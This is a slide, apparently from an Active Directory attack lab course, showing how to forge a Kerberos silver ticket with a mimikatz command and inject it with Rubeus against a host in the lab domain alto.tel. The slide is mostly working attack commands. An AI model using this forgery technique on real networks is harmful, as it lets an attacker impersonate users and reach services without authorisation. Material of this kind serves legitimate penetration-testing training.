

# SOLUTION SILVER TICKET (RUBEUS)
/ptt option in mimikatz is used to pass the ticket directly, but we have an option of just issuing it and pass the
ticket using another tool like Rubeus.

In Mimikatz:
k e r b e r o s : : g o l d e n  / d o m a i n : a l t o . t e l	/ s i d : [ D o m a i n	s i d ]	/ r c 4 : [ w e b - 0 1	h a s h ]
/ u s e r : a n y u s e r	/ i d : 5 0 0	/ t a r g e t : w e b - 0 1 . a l t o . t e l  / s e r v i c e : h o s t

The ticket will be saved in your directory with name “ticket.kirbi”
Then, in Rubeus:
. \ R u b e u s . e x e	p t t	/ t i c k e t : t i c k e t . k i r b i
197